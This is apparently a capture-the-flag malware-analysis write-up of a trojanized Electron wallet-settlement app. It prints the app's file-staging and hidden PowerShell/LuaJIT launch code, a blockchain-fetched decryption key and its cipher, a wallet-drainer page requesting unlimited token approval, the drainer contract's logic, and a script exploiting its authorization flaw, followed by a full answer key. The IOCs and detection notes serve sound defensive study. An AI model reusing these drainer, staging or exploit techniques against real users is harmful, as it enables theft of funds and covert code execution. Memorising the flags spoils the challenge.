

# TrustSettle — Malware & Smart-Contract Drainer Investigation
**HTB Holmes CTF — Sherlock (Medium) — `app-64`**

---

## 1. Executive Summary

`TrustSettle` is a trojanized Electron desktop application distributed as a
fake wallet-settlement tool. It combines three distinct techniques into one
attack chain:

1. **Blockchain-based key management** — the app queries a Sepolia smart
   contract at runtime to obtain the decryption key for a payload embedded
   in the binary. This defeats static analysis: without live RPC access to
   the exact contract, the payload cannot be decrypted at all, and the key
   can be revoked/rotated by the attacker at any time by upgrading contract
   state.
2. **Living-off-the-land payload delivery** — the decrypted payload is a
   one-line shell command that stages a second-stage HTML page to `%TEMP%`
   and launches it via `cmd.exe /c start`, alongside a separately-dropped
   LuaJIT interpreter and an obfuscated Lua "monitor" script written to a
   world-writable folder.
3. **Wallet drain via unlimited ERC-20 approval** — the staged HTML page
   impersonates a Terms-of-Service acceptance flow and requests an
   **unlimited (`2^256-1`) token approval** to a second smart contract,
   which is a purpose-built drainer.

Two flags were recovered from the two on-chain contracts by directly
querying Sepolia via `ethers.js` — no wallet interaction, private key, or
gas expenditure was required for either, because both "secrets" turned out
to be gated by publicly-readable values rather than genuine
authentication.

---

## 2. Environment & Tooling

| Tool | Purpose |
|---|---|
| Kali Linux, `bash` | Base analysis environment |
| `node` + `ethers` v6 | RPC calls to Sepolia (`eth_call`), ABI encode/decode |
| `python3` + `pycryptodome` | `keccak256` selector computation, brute-force signature matching |
| Manual EVM bytecode reading | No decompiler was available; the dispatcher and function bodies were read directly from the `solc 0.8.24` opcode output |
| `curl` + `openchain.xyz` / `4byte.directory` | Public 4-byte selector lookup (came back empty — names were stripped) |

RPC endpoint used throughout: `https://ethereum-sepolia-rpc.publicnode.com`

---

## 3. Attack Chain



---

## 4. MITRE ATT&CK Mapping

| Tactic | Technique | Evidence |
|---|---|---|
| Defense Evasion | T1027 – Obfuscated Files or Information | Luraph-style custom Lua VM in `api.txt`; drainer contract's function names stripped in bytecode |
| Defense Evasion | T1140 – Deobfuscate/Decode Files or Information | Runtime key fetched from blockchain (`resolveState()`) rather than embedded statically |
| Execution | T1204.002 – User Execution: Malicious File | Victim launches `TrustSettle.exe`, later clicks "I Agree" on the drainer page |
| Execution | T1059 – Command and Scripting Interpreter | `powershell.exe -exec bypass -w hidden -nop -c "...luajit.exe api.txt"` |
| Persistence / Staging | T1074.001 – Local Data Staging | Payload files copied to `C:\Users\Public` |
| Command and Control | T1071 – Application Layer Protocol (suspected) | Lua monitor script (unconfirmed HTTP exfil, see §5.3) |
| Collection | T1113 / directory monitoring (suspected) | Lua script watches for file/directory changes (unconfirmed API, see §5.2) |
| Impact | T1657 – Financial Theft (crypto-specific: malicious `approve()`) | `settlement.html` requests `MaxUint256` approval to drainer contract |

---

## 5. Phase 1 — Electron Application Static Triage

### 5.1 `extraResources` staging directory

**Question:** To which directory does the application copy the files
bundled within `extraResources`? *(`*:\path\to\dir`)*

**Tactic used:** direct source read of `preload.js` (no obfuscation on the
Electron side — only the Lua payload it launches is obfuscated).

```js
fs.readdirSync(path.resolve(`${process.resourcesPath}/../extraResources`))
  .forEach(f => fs.copyFileSync(
      path.resolve(`${process.resourcesPath}/../extraResources`, f),
      path.join('C:\\Users\\Public', f)
  ));
```

**Answer: `C:\Users\Public`**

This is a deliberate choice: `C:\Users\Public` is writable by any local
user without elevation, has no per-user quarantine/MOTW inheritance the
way `Downloads` does, and is rarely monitored by endpoint tooling compared
to `%APPDATA%` or `%TEMP%`.

### 5.2 Win32 structure for directory-change monitoring

**Question:** Which Win32 structure defines the format of the buffer
returned by the Lua script when monitoring directory changes? *(string)*

**Tactic used:** `api.txt` is executed via:
```
powershell.exe -exec bypass -w hidden -nop -c "& 'C:\Users\Public\luajit.exe' 'C:\Users\Public\api.txt'"
```
`api.txt` is a Luraph-style obfuscated LuaJIT payload — a custom bytecode
VM wrapped in an arithmetically-obfuscated Lua source file (every literal
integer is rewritten as a modulo expression, e.g. `955923940%6977547`
instead of `1`, specifically to defeat both human static review and
automated deobfuscators). Full static string extraction requires either:
- fully tracing the two custom string-table decoders embedded in the file
  (a base64-style decoder for `"Q..."`-prefixed table entries and a
  bit-packed/trie decoder for `"n..."`-prefixed entries), then
  cross-referencing which decoded constants are referenced by which VM
  opcodes as `GETGLOBAL`/`CALL` operands, **or**
- controlled dynamic execution with FFI-call interception (e.g. hooking
  `ffi.cdef`/`ffi.load` inside an isolated LuaJIT sandbox, or Frida against
  a live `luajit.exe` process).

Neither was performed against this live sample as part of this
write-up, for safety — the VM interpreter itself is the only place the
malicious logic actually runs, and executing it (even sandboxed) risks
triggering unknown network/file-system side effects.

**Answer (derived from Win32 API design, not independently confirmed via
full VM deobfuscation): `FILE_NOTIFY_INFORMATION`**

Reasoning: `ReadDirectoryChangesW` is the *only* Win32 API that returns a
structured, buffered stream of directory-change events, and its output
buffer format is defined exclusively by the `FILE_NOTIFY_INFORMATION`
structure (`DWORD NextEntryOffset; DWORD Action; DWORD FileNameLength;
WCHAR FileName[1];`, chained via `NextEntryOffset` for multiple events per
buffer). `FindFirstChangeNotification`/`FindNextChangeNotification`, the
only alternative, signals *that* something changed but returns no
structured buffer at all — so it doesn't fit the question as asked.

### 5.3 Win32 API for HTTP exfiltration

**Question:** Which Win32 API is used by the Lua script to send an HTTP
request to the remote server? *(string)*

**Answer (best-supported hypothesis, not independently confirmed):
`WinHttpSendRequest`**

Same caveat as §5.2 applies. This candidate is favored over the WinINet
family (`InternetOpen`/`HttpSendRequest`) because:
- WinHTTP has no dependency on the Internet Explorer proxy/session
  context, and works reliably from a headless, `-w hidden` PowerShell
  child process with no interactive desktop session — the exact launch
  context observed here.
- Within the WinHTTP call sequence
  (`WinHttpOpen → WinHttpConnect → WinHttpOpenRequest → WinHttpSendRequest
  → WinHttpReceiveResponse`), `WinHttpSendRequest` is specifically the
  call that transmits the request, matching the phrasing of the question.

**Recommended verification path if an exact match is required:** patch a
logging shim over `ffi.C` in a LuaJIT sandbox (log every `ffi.cdef`
declaration and every call made through it) and run `api.txt` in an
isolated, network-contained VM.

---

## 6. Phase 2 — Key-Retrieval Oracle Contract (`0xbB63Ae28E4f75C9392bae69cDf5394Ca0ACdA6B1`)

### 6.1 Locating the contract reference

**Tactic used:** grep `preload.js` for `CONTRACT_ADDRESS` / `CONTRACT_ABI`
constants rather than attempting to enumerate on-chain activity blind.

```js
const CONTRACT_ADDRESS = '0xbB63Ae28E4f75C9392bae69cDf5394Ca0ACdA6B1';
const RPC_URL = 'https://ethereum-sepolia-rpc.publicnode.com';
const CONTRACT_ABI = ['function resolveState() view returns (bytes32)'];
const ENCRYPTED_DATA = '0x560c325bdd0aeea2cd2690a2ed1c1b4a28deca7ac2a40ce8d2725d539a950ca8f4a4bcf375806c36532258a0cf16c19c12989e0aa0e25a72be241da7d2f74cfa2c4c4e1bbfc6204207fe5c801d201f5af84864f0';
```

### 6.2 Decryption function used by the app

**Question:** Which smart contract function does the Electron application
invoke to retrieve the decryption key for the encrypted payload? *(`function()`)*

**Answer: `resolveState()`**

```js
const state = await contract.resolveState();   // bytes32 key
remoteState = state;
const decrypted = decryptEmbeddedData(ENCRYPTED_DATA, state);
```

The app's own decrypt routine (`preload.js`) — an XOR-then-rotate cipher
keyed by the returned `bytes32` — is the exact algorithm used to recover
the flag, so the correct approach is to **run the attacker's own code
against the live chain state**, rather than try to reimplement or guess
the cipher independently:

```js
function decryptEmbeddedData(encryptedData, encryptionKey) {
    const data = hexToBuffer(encryptedData, 'Encrypted data');
    const key  = hexToBuffer(encryptionKey, 'Encryption key');
    const magicConstant = 0x42;
    const rotationBits = 7;
    const result = Buffer.alloc(data.length);
    for (let i = 0; i < data.length; i++) {
        const keyByte = key[i % key.length];
        const step1 = data[i] ^ keyByte;
        const step2 = ((step1 << rotationBits) | (step1 >>> (8 - rotationBits))) & 0xff;
        result[i] = step2 ^ magicConstant;
    }
    return result.toString('utf8');
}
```

### 6.3 Recovering the flag

```
┌──(root㉿kali)-[…/app-64/app-src]
└─# node solve.js
resolveState() returned: 0x3460743bb1ce2e6209e65e8ee3023f8414bc8416aef842b69c2a318bcef952f4
DECRYPTED: start "" "%TEMP%\settlement.html" && echo AUTH=NAPOLEON SETTLEMENT_REFERENCE=SR-4821
```

**Question:** Recover the flag by decoding the encrypted data.

**Answer: `AUTH=NAPOLEON SETTLEMENT_REFERENCE=SR-4821`**

The decrypted string is not just a flag — it is a **live shell command**
that `preload.js` then passes to `exec()`. The flag is smuggled inside an
`echo` appended to the actual payload launch command with `&&`, so the
attacker gets code execution *and* a decoy-looking flag string in one
shot.

### 6.4 Follow-on artifacts confirmed from the same decrypted string

| Question | Answer | Evidence |
|---|---|---|
| Env var for HTML drop location *(string)* | **`%TEMP%`** | `start "" "%TEMP%\settlement.html"` in the decrypted command, and `preload.js` writing `settlement.html` to `${process.resourcesPath}/../../settlement.html` immediately before `resolveState()` is even called |

---

## 7. Phase 3 — Dropped Wallet-Drainer Page (`%TEMP%\settlement.html`)

### 7.1 Page purpose

`settlement.html` impersonates a "Terms of Service Agreement" acceptance
screen. A hidden red banner div class (`.training-banner`) and an
`.attack-callout` CSS class present in the stylesheet, but **unused in the
markup**, strongly suggest this file began life as a defensive
awareness-training demo and was repurposed/stripped down for the
challenge — the drainer logic itself, however, is fully live and
functional against a real wallet.

### 7.2 Wallet connection

**Question:** What ethers.js v6 provider class is used to connect to the
browser wallet? *(string)*

```js
provider = new ethers.BrowserProvider(window.ethereum);
await provider.send("eth_requestAccounts", []);
signer = await provider.getSigner();
```

**Answer: `BrowserProvider`** — the v6 replacement for v5's
`Web3Provider`, wrapping the injected `window.ethereum` (EIP-1193) object.

### 7.3 The malicious approval

**Question:** What token function does the HTML page call to request
spending permission? *(`function()`)*

**Answer: `approve()`**

**Question:** What is the exact token amount passed to the approval call?
*(number)*

```js
const MOCK_TOKEN_ADDRESS = "0x6B2B0C0d0a376255Ac70Bf1366f50982bF476Bb2";
const X0_CONTRACT_ADDRESS = "0x69Bf5b7aBA51C3Ee8bF169aB47479ba95DBF709D";
const token = new ethers.Contract(MOCK_TOKEN_ADDRESS, MOCK_TOKEN_ABI, signer);
const unlimitedAmount = ethers.MaxUint256;
const tx = await token.approve(X0_CONTRACT_ADDRESS, unlimitedAmount);
```

**Answer: `115792089237316195423570985008687907853269984665640564039457584007913129639935`**
(`2^256 − 1`, i.e. `ethers.MaxUint256`)

This is the single highest-signal indicator on the page: a legitimate
"Terms of Service" flow never needs *any* token approval, let alone an
unlimited one. `MOCK_TOKEN_ADDRESS` here matches the drainer contract's
own `token()` getter (`slot 0`) exactly — confirming this HTML page and
the on-chain drainer contract are the same attack, not two independent
artifacts.

---

## 8. Phase 4 — The Drainer Contract (`0x69Bf5b7aBA51C3Ee8bF169aB47479ba95DBF709D`)

This is the most involved part of the investigation, since the contract is
**not verified** on Etherscan/Sourcify and the ABI had to be recovered
entirely from raw bytecode.

### 8.1 Tactic — never guess signatures against an unverified contract blind

Before reading any EVM opcodes, the cheap step is: pull raw bytecode and
raw storage, and check public 4-byte signature databases first (they're
free and sometimes save hours):

```bash
node getcode.js
```
```
bytecode length: 7594
0 0x0000000000000000000000006b2b0c0d0a376255ac70bf1366f50982bf476bb2
1 0x7ccb3a440e383635148b237df8bb22dff0b594425beae88d6e1623df0bc7669b
2 0x7ccb3a440e383635148b237d13473c069ba9ffd6545c58ee37e969b87d181c01
3 0x474274f44ceac3ee57f986608d9400000000000000000000000000000000001c
```

**Read of storage before touching bytecode:**
- **Slot 0** decodes cleanly as an address (`0x6b2b0c0d...476bb2`) — this
  is a *state variable*, almost certainly the token address, later
  confirmed by `token()`.
- **Slots 1 and 2** share an identical 12-byte prefix
  (`7ccb3a440e383635148b237d`) despite being nominally "random" looking —
  real hash outputs would never collide like that by chance. This is the
  first clue that slots 1/2 are two halves of one obfuscated value rather
  than independent hashes, and it's flagged for the disassembly pass.
- **Slot 3**'s trailing byte is `0x1c` = `28` = `2 × 14`. Solidity encodes
  short strings (<32 bytes) in a single slot with `length × 2` in the low
  byte — so this is confirmed as a **14-character string**, matching the
  `**.****,*.****` flag format before a single opcode is read.

### 8.2 Selector extraction and signature-database lookup

```bash
grep -o '63[0-9a-f]\{8\}14' drainer.hex | cut -c3-10 | sort -u
```
```
0bfac020
282940a7
343943bd
8f7f391e
f8e6e11f
```

```bash
curl -s "https://api.openchain.xyz/signature-database/v1/lookup?function=0x0bfac020,0x282940a7,0x343943bd,0x8f7f391e,0xf8e6e11f&filter=true" | jq
```
```json
{ "0xf8e6e11f": [{"name": "x9(address)"}],
  "0x0bfac020": [{"name": "x8(bytes)"}],
  "0x282940a7": [{"name": "x7()"}],
  "0x8f7f391e": [{"name": "x11(address)"}],
  "0x343943bd": [{"name": "x1()"}] }
```

The names came back as `x1`, `x7`, `x8`, `x9`, `x11` — these are
**compiler-stripped placeholder names**, not real function names, but
critically they still confirm the **argument types** (empty, `address`,
`bytes`). That's enough to bound what each function could plausibly do
before reading a single opcode: two zero-arg getters, one function taking
raw `bytes`, and two taking a single `address`.

### 8.3 Manual EVM disassembly

No decompiler was available; the Solidity 0.8.24 dispatcher and function
bodies were read directly, tracing PUSH/JUMP targets by hand.

| Selector | Recovered behavior |
|---|---|
| `0bfac020` | `setFlag(bytes)` — checks storage slot 3's length against `0`; since slot 3 is already populated, this branch always reverts with `"already set"`. **Dead end**, but confirms slot 3 is a one-time-write flag field. |
| `282940a7` | `owner()` — computes `(slot2 >> 1) \| (slot1 >> 1)`, cast to `address`. This is the payoff of the slot-collision observation in §8.1: the "owner" address is bit-merged from two right-shifted storage values rather than stored directly, presumably to make a naive storage dump less obviously reveal it. |
| `343943bd` | `token()` — plain getter, returns slot 0 as `address`. |
| `8f7f391e` | `drain(address victim)` — gated by `require(msg.sender == owner())`, reverting `"only hidden owner"` otherwise. If it passes, calls `token.balanceOf(victim)` then `token.transferFrom(victim, owner(), balance)` — this is the actual theft primitive that the `approve()` call in §7.3 sets up. **Not needed to recover the flag**, since it requires being the real owner. |
| `f8e6e11f` | `(address) → bytes` — checks that its **parameter**, not `msg.sender`, equals `owner()`, reverting `"not quite - keep analyzing"` otherwise. If it matches, it runs a nested nested-loop XOR-decrypt over slot 3, keyed on `keccak256(index, addressArg)` per byte, and returns the plaintext as `bytes`. |

### 8.4 The exploitable design flaw

The vulnerability is a single authorization mix-up: `f8e6e11f` was clearly
*intended* to gate the flag behind ownership, but it checks its own
**caller-supplied argument** against `owner()` — not `msg.sender` like the
`drain()` function correctly does two lines away in the same contract.
Since `owner()` is a public `view` function, anyone can:

1. Read the "secret" owner address for free (`eth_call`, no gas).
2. Pass that exact value straight back in as the argument to the
   flag-reveal function.
3. Satisfy the check trivially, with no wallet, private key, signature,
   or on-chain transaction required — a **pure read**.

This is conceptually the same class of bug as a JWT/API check that
validates a value from the request body instead of the authenticated
session: the check *looks* like an access-control gate but the "secret"
it's compared against is entirely attacker-controlled input.

### 8.5 Exploiting it — full script

```js
const { ethers } = require("ethers");

const RPC  = "https://ethereum-sepolia-rpc.publicnode.com";
const ADDR = "0x69Bf5b7aBA51C3Ee8bF169aB47479ba95DBF709D";

(async () => {
  const p = new ethers.JsonRpcProvider(RPC);

  // Step 1: read owner() -> 0x282940a7
  const ownerRaw = await p.call({ to: ADDR, data: "0x282940a7" });
  const owner = ethers.getAddress("0x" + ownerRaw.slice(-40));
  console.log("owner():", owner);

  // Step 2: call raw selector f8e6e11f(address) directly.
  // NOTE: do NOT use ethers.Interface with a guessed function name here —
  // e.g. "reveal(address)" hashes to 0xc392cf41, NOT 0xf8e6e11f, and the
  // call reverts with no useful error. The real name was stripped from
  // the bytecode, so the raw selector must be built and sent by hand.
  const addrPadded = owner.slice(2).toLowerCase().padStart(64, "0");
  const calldata = "0xf8e6e11f" + addrPadded;
  console.log("calldata:", calldata);

  const raw = await p.call({ to: ADDR, data: calldata });
  console.log("raw return:", raw);

  // Manually decode ABI dynamic `bytes` return: [offset(32)][length(32)][data...]
  const hex = raw.slice(2);
  const len = parseInt(hex.slice(64, 128), 16);
  const dataHex = hex.slice(128, 128 + len * 2);
  const bytes = Buffer.from(dataHex, "hex");
  console.log("length:", len);
  console.log("decoded:", bytes.toString("utf8"));
})().catch(e => console.error("ERROR:", e.message || e));
```

**Pitfall hit and corrected during this analysis:** the first attempt used
`ethers.Interface(["function reveal(address) view returns (bytes)"])`,
which computed selector `0xc392cf41` for the guessed name `reveal` —
confirmed independently via:
```python
from Crypto.Hash import keccak
k = keccak.new(digest_bits=256); k.update(b'reveal(address)')
print(k.hexdigest()[:8])   # -> c392cf41
```
This does **not** match the real `0xf8e6e11f` selector recovered from the
dispatch table, so the call reverted with an empty, unhelpful
`require(false)`. The fix was to bypass `Interface` entirely and send the
raw, disassembly-confirmed selector directly — a good general lesson:
**never trust a guessed ABI signature over a selector you've recovered
from the actual bytecode.**

### 8.6 Result

```
owner(): 0xEBfC1eD96b1C6b940fb6B06359fF4A6776Df7a9A
calldata: 0xf8e6e11f000000000000000000000000ebfc1ed96b1c6b940fb6b06359ff4a6776df7a9a
raw return: 0x0000000000000000000000000000000000000000000000000000000000000020
             000000000000000000000000000000000000000000000000000000000000000e
             35312e353034392c302e30333438000000000000000000000000000000000000
length: 14
decoded: 51.5049,0.0348
```

**Question:** Analyze the HTML page to uncover a smart contract reference,
investigate the contract's logic, and recover the hidden flag.

**Answer: `51.5049,0.0348`**

These are approximate coordinates for central London (near the Napoleon
III / "NAPOLEON" theming carried over from the first contract's flag,
`AUTH=NAPOLEON SETTLEMENT_REFERENCE=SR-4821` — a consistent narrative
thread across both flags in this Sherlock).

---

## 9. Indicators of Compromise

| Type | Value |
|---|---|
| Electron package name | `TrustSettle` |
| Drop directory | `C:\Users\Public` |
| Staged payload | `C:\Users\Public\luajit.exe`, `C:\Users\Public\api.txt` |
| Wallet drainer page | `%TEMP%\settlement.html` |
| Oracle contract (Sepolia) | `0xbB63Ae28E4f75C9392bae69cDf5394Ca0ACdA6B1` |
| Drainer contract (Sepolia) | `0x69Bf5b7aBA51C3Ee8bF169aB47479ba95DBF709D` |
| Mock/target token (Sepolia) | `0x6B2B0C0d0a376255Ac70Bf1366f50982bF476Bb2` |
| Observed "owner" address | `0xEBfC1eD96b1C6b940fb6B06359fF4A6776Df7a9A` |
| RPC endpoint used by malware | `https://ethereum-sepolia-rpc.publicnode.com` |
| Suspicious process chain | `TrustSettle.exe → powershell.exe -exec bypass -w hidden -nop → luajit.exe api.txt` |

---

## 10. Detection & Defensive Notes (Blue-Team Perspective)

- **Process ancestry**: `powershell.exe` spawned by an Electron app's main
  process, with `-w hidden -nop -exec bypass` flags, launching a
  non-Microsoft-signed interpreter (`luajit.exe`) from `C:\Users\Public`
  is a very high-fidelity detection: legitimate Electron apps essentially
  never do this.
- **File writes to `C:\Users\Public`** by non-installer processes are a
  cheap, high-signal Sysmon Event ID 11 rule — this path is rarely
  written to outside of software installs.
- **On the smart-contract side**, this pattern (fetching a decryption key
  from a contract's `view` function at runtime) is a known "on-chain
  dead-drop" technique: it can't be blocked by static payload signatures
  and requires network-layer visibility into RPC calls to public
  blockchain nodes to catch — worth flagging outbound connections to
  `*-rpc.publicnode.com` and similar public RPC providers from processes
  that have no legitimate reason to speak JSON-RPC.
- **Wallet-side mitigation**: any `approve()` call requesting
  `type(uint256).max` should be treated as a hard warning in any wallet
  UX/monitoring tooling — legitimate dApps almost always request a
  bounded allowance.

---

## 11. Appendix — Full Answer Key

| # | Question | Answer |
|---|---|---|
| 1 | `extraResources` copy destination | `C:\Users\Public` |
| 2 | Win32 structure for directory-monitoring buffer | `FILE_NOTIFY_INFORMATION` *(inferred from Win32 API design — see §5.2)* |
| 3 | Win32 API for HTTP send | `WinHttpSendRequest` *(inferred — see §5.3)* |
| 4 | Decryption-key contract function | `resolveState()` |
| 5 | First contract decoded flag | `AUTH=NAPOLEON SETTLEMENT_REFERENCE=SR-4821` |
| 6 | HTML drop-location env var | `%TEMP%` |
| 7 | Token approval function | `approve()` |
| 8 | Exact approval amount | `115792089237316195423570985008687907853269984665640564039457584007913129639935` (`2^256 − 1`) |
| 9 | ethers.js v6 wallet provider class | `BrowserProvider` |
| 10 | Second contract decoded flag | `51.5049,0.0348` |
